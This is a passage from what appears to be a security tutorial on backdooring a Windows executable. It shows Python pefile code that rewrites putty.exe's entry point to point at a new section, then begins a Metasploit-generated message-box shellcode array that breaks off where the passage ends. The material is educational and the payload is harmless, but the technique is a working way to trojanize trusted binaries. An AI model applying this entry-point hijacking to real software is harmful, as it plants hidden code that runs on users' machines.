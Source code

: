 **Note:** Here I used [Immunity Debugger](http://debugger.immunityinc.com/) to get this output.
{: .notice--info}

### Edit the Entry Point

We are good for the section header structure. Now we will edit the entry point of the executable to execute our backdoor before the rest of the code (application).

```python
import pefile

exe_path = "putty.exe"
pe = pefile.PE(exe_path)

number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
new_ep = pe.sections[last_section].VirtualAddress
oep = pe.OPTIONAL_HEADER.AddressOfEntryPoint

print "[*] Original EntryPoint = 0x%08x" % oep
print "[*] New EntryPoint = 0x%08x" % new_ep

# Edit the EP to point to the shellcode
pe.OPTIONAL_HEADER.AddressOfEntryPoint = new_ep
# Write to a new executable
pe.write("putty_mod.exe")
```

**Output**

```bash
[*] Original EntryPoint = 0x000550f0
[*] New EntryPoint = 0x00084000
```

Write the original entry point somewhere as we will use it later to redirect the execution flow to the original application.

### Injecting the Code

The last step is to inject our shellcode in the new section. I generated a simple shellcode with [Metasploit](http://metasploit.com), it will display a message box before starting the application. 

```python
# msfvenom -a x86 --platform windows -p windows/messagebox \
# TEXT="Hello, I'm in ur code" ICON=INFORMATION EXITFUNC=process \
# TITLE="BreakInSecurity" -f python

# No encoder or badchars specified, outputting raw payload
# Payload size: 283 bytes
# Final size of python file: 1362 bytes
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
                  b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
                  b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
                  b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
                  b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
                  b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
                  b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
                  b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
                  b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
                  b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
                  b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
                  b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
                  b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
                  b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
                  b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
                  b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x69\x74\x79\x58\x68"
```